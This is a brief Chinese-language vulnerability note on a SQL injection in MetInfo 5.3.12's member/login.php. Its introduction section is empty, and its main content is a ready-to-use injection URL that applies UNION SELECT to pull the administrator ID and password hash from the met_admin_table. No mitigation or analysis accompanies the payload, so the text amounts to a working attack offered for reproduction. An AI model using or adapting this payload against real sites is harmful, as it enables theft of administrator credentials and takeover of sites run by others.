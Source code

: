 MetInfo 5.3.12 member/login.php sql注入漏洞
===========================================

一、漏洞简介
------------

二、漏洞影响
------------

MetInfo 5.3.12

三、复现过程
------------

    https://www.0-sec.org/member/login.php/aa'UNION%20SELECT%20(select%20concat(admin_id,0x23,admin_pass)%20from%20met_admin_table%20limit%200,1),2,3,4,5,6,1111,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%23/aa

![1.png](./.resource/MetInfo5.3.12member_login.phpsql注入漏洞/media/rId24.png)
